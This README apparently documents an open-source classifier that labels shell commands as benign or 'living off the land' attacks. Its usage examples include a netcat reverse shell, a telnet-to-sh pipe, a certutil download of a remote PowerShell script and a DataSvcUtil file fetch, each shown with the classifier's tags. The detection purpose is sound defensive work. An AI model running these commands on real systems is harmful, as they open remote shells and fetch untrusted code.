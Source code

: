 # Living of the Land Classifier

This repository contains the source code and pre-trained models for the Living of the Land Classifier, designed by the Security Intelligence (SI) Team of the Security Coordination Center (SCC) @ Adobe.

## Quick start guide 

If you have experience with python and are eager to get started, check the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb), instead of this documentation.

To get the library up and running in no time, use the following tutorial. If you want to build you own model, please refer to the ["Advanced usage and documentation"](#advanced-usage-and-documentation) section (below).


### Prerequisites

Before you proceed, make sure your system meets the following requirements:

* **Python 3.7+** installed and running on your system
* **PIP** package installer
* We recommend using a **virtual environment**. See the [official documentation](https://docs.python.org/3/library/venv.html) for details

### Quick installation

The easiest way to get LOL running is to use the `pip`:

You can use the following command directly on your system or in the virtual environment (recommended):

```bash
$ pip install lolc
```

To test the installation you can use the following scripts or `ipython` commands, which are also in the [Quick start Jupyter Notebook](examples/01_quick_start.ipynb):

#### LINUX

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.LINUX) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321',
          'iptables -t nat -L -n',
          'telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
nc -nlvp 1234 & nc -e /bin/bash 10.20.30.40 4321
BAD
IP_PRIVATE PATH_/BIN/BASH COMMAND_NC KEYWORD_-NLVP KEYWORD_-E nc_listener_to_shell LOOKS_LIKE_KNOWN_LOL

iptables -t nat -L -n
GOOD
COMMAND_IPTABLES KEYWORD_-T KEYWORD_-L KEYWORD_-N iptables_list

telnet 10.20.30.40 5000 | /bin/sh | 10.20.30.50 5001
BAD
IP_PRIVATE PATH_/BIN/SH COMMAND_TELNET telnet_sh LOOKS_LIKE_KNOWN_LOL
```

#### WINDOWS

```python
from lol.api import LOLC, PlatformType
lolc=LOLC(PlatformType.WINDOWS) # allowed parameters are PlatformType.LINUX and PlatformType.WINDOWS
commands=['certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\\temp:ttt',
          'explorer.exe c:\\temp',
          'DataSvcUtil /out:C:\\Windows\\System32\\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile']
classification, tags = lolc(commands)
for command, status, tag in zip (commands, classification, tags):
    print(command)
    print(status)
    print(tag)
    print("\n")
```

The output should be:

```text
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
BAD
COMMAND_CERTUTIL.EXE KEYWORD_dash_urlcache KEYWORD_dash_f KEYWORD_http certutil_downloader powershell_file

explorer.exe c:\temp
NEUTRAL
# this line is empty

DataSvcUtil /out:C:\Windows\System32\calc.exe /uri:https://11.11.11.11/xxxxxxxxx?encodedfile
BAD
IP_PUBLIC COMMAND_DATASVCUTIL DataSvcUtil_http KEYWORD_http
```

## Advanced usage and documentation

This documentation is still under development. We will provide complete examples accompanied by Jupyter Notebooks.

## Installation via GitHub (for advanced usage)
```bash
git clone git@github.com:adobe/libLOL.git
cd libLOL
virtualenv -p `which python3` venv
source venv/bin/activate
pip3 install -r requirements.txt
```

## Citing

If you are using Living off the Land in any academic work, make sure to cite our (paper)[https://github.com/adobe/libLOL/raw/master/examples/iotbds_paper.pdf]:

**APA**

Boros, T., Cotaie, A., Stan, A., Vikramjeet, K., Malik, V., & Davidson, J. (2022). Machine Learning and Feature Engineering for Detecting Living off the Land Attacks. 8th International Conference on Internet of Things, Big Data and Security.

**Chicago**

Boros, Tiberiu, Andrei Cotaie, Antrei Stan, Kumar Vikramjeet, Vivek Malik, Joseph Davidson. ‘Machine Learning and Feature Engineering for Detecting Living off the Land Attacks’. 8th International Conference on Internet of Things, Big Data and Security, 2022.

**BibTeX**

```
 @ARTICLE {borosiotbds2022,
    author  = "Boros,  Tiberiu and Cotaie, Andrei and Stan, Antrei and Vikramjeet, Kumar and Malik, Vivek and Davidson, Joseph",
    title   = "Machine Learning and Feature Engineering for Detecting Living off the Land Attacks",
    journal = "8th International Conference on Internet of Things, Big Data and Security",
    year    = "2022"
}
```


